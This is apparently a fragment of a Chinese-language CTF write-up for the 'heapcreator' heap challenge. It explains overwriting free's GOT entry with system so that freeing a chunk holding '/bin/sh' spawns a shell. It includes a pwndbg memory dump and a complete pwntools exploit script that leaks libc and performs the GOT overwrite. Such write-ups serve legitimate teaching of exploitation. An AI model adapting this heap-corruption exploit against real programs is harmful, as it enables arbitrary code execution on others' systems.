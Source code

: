 这里是修改过后的，我们直接把free的got表改成了system的真实地址

下次当我们执行free的时候相当于执行system，而且我们在chunk0布局了/bin/sh

当我们释放chunk0相当于就去执行system(/bin/sh)

```c
pwndbg> x/32gx 0x602018
0x602018:	0x00007f7911e163e0	0x000000000040060a
0x602028:	0x00007f7911e406a0	0x00000000004006c6
0x602038:	0x00007f7911e26810	0x00007f7911ec8350
0x602048:	0x00007f7911df1750	0x00007f7911e55180
0x602058:	0x00007f7911e40e80	0x00007f7911e07e90
0x602068:	0x0000000000400736	0x0000000000000000
0x602078:	0x0000000000000000	0x00007f7912196620
0x602088:	0x0000000000000000	0x00007f79121958e0

```

exp

```python
from pwn import *
#p = remote('node4.buuoj.cn',28682)
p = process('./heapcreator')
context.log_level = 'debug'

def alloc(size,content):
	p.sendlineafter('Your choice :',str(1))
	p.sendlineafter('Size of Heap : ',str(size))
	p.sendlineafter('Content of heap:',content)

def edit(index,content):
	p.sendlineafter('Your choice :',str(2))
	p.sendlineafter('Index :',str(index))
	p.sendlineafter('Content of heap : ',content)

def show(index):
	p.sendlineafter('Your choice :',str(3))
	p.sendlineafter('Index :',str(index))

def dele(index):
	p.sendlineafter('Your choice :',str(4))
	p.sendlineafter('Index :',str(index))

alloc(0x18,'bbbb')
alloc(0x10,'aaaa')
#gdb.attach(p)
pause()
elf = ELF('./heapcreator')
libc = ELF('./libc-2.23.so')
edit(0,'/bin/sh\x00'+'b'*0x10 +'\x41')
pause()
dele(1)
pause()
alloc(0x30,p64(0)*4+p64(0x30)+p64(elf.got['free']))

show(1)
free = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
log.success('free==>'+str(hex(free)))
libc_base = free - libc.sym['free']
system = libc_base + libc.sym['system']
log.success('system==>'+str(hex(system)))
gdb.attach(p)
edit(1,p64(system))

```